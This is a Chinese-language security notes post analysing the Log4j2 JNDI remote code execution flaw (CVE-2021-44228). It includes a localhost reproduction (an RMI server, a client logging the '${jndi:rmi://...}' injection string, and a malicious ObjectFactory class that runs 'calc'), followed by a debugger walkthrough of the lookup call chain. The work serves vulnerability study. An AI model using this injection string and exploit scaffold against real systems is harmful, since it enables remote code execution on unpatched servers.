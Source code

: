 ```yaml
---
title: log4j2漏洞分析（CVE-2021-44228）
date: 2022-2-25
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities

---
```


## log4j2漏洞分析（CVE-2021-44228）

### 0x01 漏洞描述

Apache Log4j2 是 Apache 的一个开源项目，Apache Log4j2 是一个基于 Java 的日志记录工具，使用非常广泛，被大量企业和系统索使用，漏洞触发及其简单，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置。

影响范围：Apache Log4j 2.x<=2.14.1

### 0x02 漏洞复现

使用maven引入相关组件，相应的pom.xml文件：

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

下面的复现利用的是log4j2提供的jndi功能，自己手动构建恶意类的方式调用

服务端：

```java
public class Rmiserver {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(12345);
        Reference reference = new Reference("Hello", "Hello",
                "http://127.0.0.1:8080/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj", referenceWrapper);
    }
}
```

客户端：

```java
public class Log4jTEst {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger();
        logger.error("${jndi:rmi://127.0.0.1:12345/obj}");
    }
}
```

恶意类：

```java
public class Hello implements ObjectFactory  {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("hello");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}
```

复现：

![image-20220606150933683](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606150934.png)

### 0x03 漏洞调用链分析

关键调用链

```
LOGGER.error
  ......
    MessagePatternConverter.format
      ....
        StrSubstitutor.resolveVariable
          Interpolator.lookup
            JndiLookup.lookup
              JndiManager.lookup
                InitialContext.lookup
```

在入口点logger.error()打上断点：

![image-20220606151109583](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606151109.png)

进入`org.apache.logging.log4j.spi#error`：

![image-20220606151733961](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606151734.png)

`org.apache.logging.log4j.spi#logIfEnabled`：

![image-20220606152129024](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152129.png)

`org.apache.logging.log4j.spi#logMessageTrackRecursion`：

![image-20220606152226076](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152226.png)

就这样一步步递归，走到关键点`org.apache.logging.log4j.core.appender#directEncodeEvent`。该方法的第一行代码将返回当前使用的布局，并调用对应布局处理器的encode方法

![image-20220606152427303](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152427.png)

log4j2默认缺省布局使用的是PatternLayout：

![image-20220606152908926](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152909.png)

继续跟进在encode中会调用toText方法，根据注释该方法的作用为创建指定日志事件的文本表示形式，并将其写入指定的StringBuilder中。`org.apache.logging.log4j.core.layout#encode`

![image-20220606153233315](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153233.png)

跟进toText方法：`org.apache.logging.log4j.core.layout#toText`

![image-20220606153334624](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153334.png)

接下来会调用`serializer.toSerializable`，并在这个方法中调用不同的Converter来处理传入的数据，如下图所示，

这里一步步将event添加到buf中：

![image-20220606153723600](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153723.png)

一直添加到：

![image-20220606153811581](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153811.png)

开始解析`${`。`org.apache.logging.log4j.core.pattern#format`

![image-20220606154019040](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154019.png)

下面有一个关键点。这里对日志消息进行格式化，其中很明显的看到有针对字符”$”和”{“的判断，而且是连着判断，等同于判断是否存在”${“，这三行代码中关键点在于最后一行

![image-20220606154051465](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154051.png)

![image-20220606154441647](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154442.png)

注意此时的workingBuilder是一个StringBuilder对象，该对象存放的字符串如下所示

```
15.23.39.893 [main] ERROR Log4jTEst - ${jndi:rmi://127.0.0.1/obj}
```

本来这段字符串的长度是63，但是却给它改成了38，为什么呢？因为第38的位置就是`$`符号，也就是说只保留`$`之前的，`${jndi:rmi://127.0.0.1/obj}`这段不要了，从第38位开始append。而append的内容是什么呢？可以看到传入的参数是config.getStrSubstitutor().replace(event, value)的执行结果，其中的value就是`${jndi:rmi://127.0.0.1/obj}`这段字符串。也就是说这里append的字符串就是这段字符串replace后的内容。

replace的作用简单来说就是想要进行一个替换，我们继续跟进`org.apache.logging.log4j.core.lookup#replace`：

![image-20220606155051249](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155051.png)

经过一系列的嵌套调用，来到了`org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute`。StrSubstitutor类提供了关键的 `DEFAULT_ESCAPE` 是 `$`，`DEFAULT_PREFIX` 前缀是 `${`，`DEFAULT_SUFFIX` 后缀是 `}`，`DEFAULT_VALUE_DELIMITER_STRING` 赋值分隔符是 `:-`，`ESCAPE_DELIMITER_STRING` 是 `:\-`

![image-20220606200449819](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200450.png)

这个类提供的 `substitute` 方法，是整个 Lookup 功能的核心，用来递归替换相应的字符，这里来仔细看一下处理逻辑。

方法通过 while 循环逐个字符串寻找 `${` 前缀

![image-20220606200554339](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200554.png)

找到前缀后开始找后缀，但是在找后缀的 while 循环里，又判断了是否替换变量中的值，如果替换，则再匹配一次前缀，如果又找到了前缀，则 continue 跳出循环，再走一次找后缀的逻辑，用来满足变量中嵌套的情况。

![image-20220606200711471](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200711.png)

后续的处理中，通过多个 if/else 用来匹配 `:-` 和 `:\-`

![image-20220606200812347](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200812.png)

![image-20220606200846234](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200846.png)

在没有匹配到变量赋值或处理结束后，将会调用 `resolveVariable` 方法解析满足 Lookup 功能的语法，并执行相应的 lookup ，将返回的结果替换回原字符串后，再次调用 `substitute` 方法进行递归解析。

![image-20220606155354466](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155354.png)

跟进`org.apache.logging.log4j.core.lookup#resolveVariable`调用了lookup函数。

![image-20220606155814564](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155814.png)

而这实际上是一个代理类 `Interpolator`，这个类在初始化时创建了一个 `strLookupMap` ，将一些 lookup 功能关键字和处理类进行了映射，存放在这个 Map 中

![image-20220606160238614](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160238.png)

处理和分发的关键逻辑在于其 `lookup` 方法，通过 `:` 作为分隔符来分隔 Lookup 关键字及参数，从`strLookupMap` 中根据关键字`jndi`作为 key 匹配到对应的处理类`jndiLookup`，并调用其 lookup 方法。

![image-20220606160340327](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160340.png)

![image-20220606160429996](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160430.png)

由此调用了jndiLookup方法，弹出了计算器

![image-20220606160615534](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160616.png)

### 0x04 参考文献

* [从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)
* [浅谈 Log4j2 漏洞](https://tttang.com/archive/1378/)
* [史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)
* [Log4j2 研究之lookup](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8&scene=21#wechat_redirect)